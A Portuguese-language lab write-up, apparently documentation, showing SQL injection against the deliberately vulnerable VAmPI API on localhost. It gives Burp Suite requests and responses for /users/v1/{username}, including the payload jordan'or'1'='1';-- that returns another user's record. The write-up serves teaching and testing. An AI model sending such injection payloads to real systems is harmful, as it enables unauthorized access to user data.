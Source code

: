 ```yaml
---
sidebar_position: 2
---
```


# Exploração
---
Existem alguns métodos usados para identificar uma falha de SQL Injection, seja por meio de uma revisão do código fonte (em casos de testes white box), por meio da injeção maliciosa de string em inputs de dados de uma API, ferramentas de scan de vulnerabilidades etc.

## Vulnerabilidade na rota `/users/v1/{username}`
Inicialmente, foi usado o PostMan para enviar uma requisição do tipo `GET` com o username **jordan** como parâmetro e, posteriormente, analisar com o Burp Suite:

```js title="GET /users/v1/{username}"
GET /users/v1/jordan HTTP/1.1
User-Agent: PostmanRuntime/7.29.2
Accept: */*
Postman-Token: a6523c6b-4739-4b55-b9ed-9347a58845b8
Host: localhost:5000
Accept-Encoding: gzip, deflate
Connection: close
```

A resposta recebida foi:

```js title="Response"
HTTP/1.0 200 OK
Content-Type: application/json
Content-Length: 56
Server: Werkzeug/1.0.1 Python/3.8.10
Date: Fri, 30 Sep 2022 17:26:17 GMT

{
    "username": "jordan", 
    "email": "jjga.snf19@uea.edu.br"
}
```
Ao ter ciência do response legítimo enviado pela API para o usuário **jordan** na respectiva rota, é possível testar a sua fragilidade para o SQL Injection manipulando a requisição com um parâmetro malicioo.

No Burp Suite, enviaremos novamente a requisição alterando o parâmetro da requisição para `jordan'or'1'='1';--`

```js title="GET /users/v1/jordan'or'1'='1';--"
GET /users/v1/jordan'or'1'='1';-- HTTP/1.1
User-Agent: PostmanRuntime/7.29.2
Accept: */*
Postman-Token: a6523c6b-4739-4b55-b9ed-9347a58845b8
Host: localhost:5000
Accept-Encoding: gzip, deflate
Connection: close
```
Então, obtivemos a seguinte resposta do VAmPI:
```js title="SQL Injection Response"
HTTP/1.0 200 OK
Content-Type: application/json
Content-Length: 48
Server: Werkzeug/1.0.1 Python/3.8.10
Date: Fri, 30 Sep 2022 18:33:14 GMT

{
    "username": "name1",
    "email": "mail1@mail.com"
}
```
Ao compararmos o body de ambas as responses, podemos notar que o endpoint usado para retornar as informações de um usuário é suscetível ao SQL Injection.

#### Mais referências disponíveis na [OWASP](https://github.com/OWASP/API-Security/blob/master/2019/en/src/0xa8-injection.md).